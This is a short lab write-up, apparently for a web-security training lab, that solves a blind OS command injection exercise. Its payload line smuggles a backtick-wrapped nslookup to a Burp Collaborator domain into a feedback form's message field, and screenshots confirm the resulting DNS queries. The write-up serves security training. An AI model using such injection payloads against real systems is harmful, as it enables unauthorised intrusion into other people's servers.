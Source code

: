 # Lab: Blind OS command injection with out-of-band interaction
## Task
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## Solution
On Burp Suite Pro, run a Burp Collaborator client and copy the domain.  

![image](https://user-images.githubusercontent.com/44528004/130431194-b21040cc-8c91-4c79-b4b1-51e0f03d05c3.png)

Next, add this domain to the payload to create an out-of-band interaction.  
```
name=hacker&email=hacker%40hacker.com&subject=hack&message=hack`nslookup rje8b1i3h26hmw1bml2l62lh389yxn.burpcollaborator.net`
```  

Comeback to the Burp Collaborator client, click **Poll now** and see that there are some coming dns queries.  

![image](https://user-images.githubusercontent.com/44528004/130431375-83cd03a2-6cce-41e3-98d1-149ddc9913d2.png)

That's also what this lab wants us to do.  

![image](https://user-images.githubusercontent.com/44528004/130431414-8309e4cc-b3ce-4d67-8b6f-91b319aa7b5f.png)
> Solved!
